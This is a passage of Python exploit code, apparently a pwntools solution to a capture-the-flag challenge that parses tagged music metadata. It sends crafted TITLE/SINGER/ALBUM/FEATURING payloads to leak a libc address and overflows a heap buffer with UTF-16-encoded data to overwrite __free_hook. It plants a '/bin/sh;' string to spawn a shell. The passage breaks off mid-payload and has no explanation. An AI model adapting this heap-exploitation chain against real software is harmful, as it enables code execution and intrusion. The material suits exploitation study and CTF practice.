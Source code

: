 ```python
    pay = b'<TAG>'
    pay += b'<TITLE>' + p16(1) + p8(0) + b'a' + b'</TITLE>' 
    pay += b'<SINGER>' + p16(len(d)) + p8(2) + d + b'</SINGER>' 
    pay += b'<ALBUM>' + p16(1) + p8(0xf) + b'b' + b'</ALBUM>'
    pay += b'<FEATURING>' + p16(0x5a0 - 1 - 0x18) + p8(0) + b'd'*(0x5a0 - 1 - 0x18) + b'</FEATURING>'
    pay += b'</TAG>'
    pay += b'\x00' * (0x10000 - len(pay))

    p.send(pay)

    p.recvuntil('album: ')
    leak = u64(p.recv(6).ljust(8, b'\x00'))
    libcbase = leak - 0x1ebc50 - 0x1000
    log.info('[LIBC] 0x%x' % libcbase)
    print('0x%x' % (libcbase + libc.symbols['__free_hook']))
    print('0x%x' % (libcbase + 0x51D00))

    r = p64(libcbase + libc.symbols['__free_hook'] - 0x18)
    for i in r:
      if i >= 0x80:
        raise ValueError
    r = p64(libcbase + 0x51D00)
    for i in r:
      if i >= 0x80:
        raise ValueError
    k = utf16(p64(libcbase + libc.symbols['__free_hook'] - 0x18), b=1)
    payload = utf16('a') * (0x80 - 0x18 - 1 - 8 - 8 ) +utf16('b') + k
    l = 0x8
    d = overflow(payload, l)


    pay = b'<TAG>'
    pay += b'<TITLE>' + p16(len(d)) + p8(2) + d + b'</TITLE>' 
    pay += b'<SINGER>' + p16(0x40 - 1) + p8(0) + b'b'*(0x40-1) + b'</SINGER>' 
    pay += b'<ALBUM>' + p16(0x40 -1) + p8(0) + b'a'*(0x40-1) + b'</ALBUM>'
    pay += b'<FEATURING>' + p16(0x40-1) + p8(0) + b'd'*(0x40-1) + b'</FEATURING>' 
    pay += b'</TAG>'

    pay += b'\x00' * (0x10000 - len(pay))
    p.send(pay)

    pay = b'<TAG>'
    pay += b'<TITLE>' + p16(0x80) + p8(0) + b'a'*0x80 + b'</TITLE>' 
    pay += b'<SINGER>' + p16(0x80) + p8(0) + b'a'*0x80+ b'</SINGER>' 
    pay += b'<ALBUM>' + p16(0x80) + p8(0) + b'a'*0x80  + b'</ALBUM>' 
    pay += b'<FEATURING>' + p16(0x80) + p8(0) + b'a'*0x80 + b'</FEATURING>'
    pay += b'</TAG>'

    pay += b'\x00' * (0x10000 - len(pay))

    p.send(pay)

    payload = utf16('a') * (0x60 - 0x18 - 1 - 8 - 8 ) +utf16('b') + k
    l = 0x8
    d = overflow(payload, l) 


    pay2 = utf16(p64(libcbase + 0x51D00), b=1)
    pay2 += utf16('a') * (0x40 - 0x18 - 8)
    pay = b'<TAG>'
    pay += b'<TITLE>' + p16(len(d)) + p8(2) + d + b'</TITLE>' 
    pay += b'<SINGER>' + p16(0x40-1) + p8(0) + b'/bin/sh;' + b'a'*(0x40-8-1)+ b'</SINGER>' 
```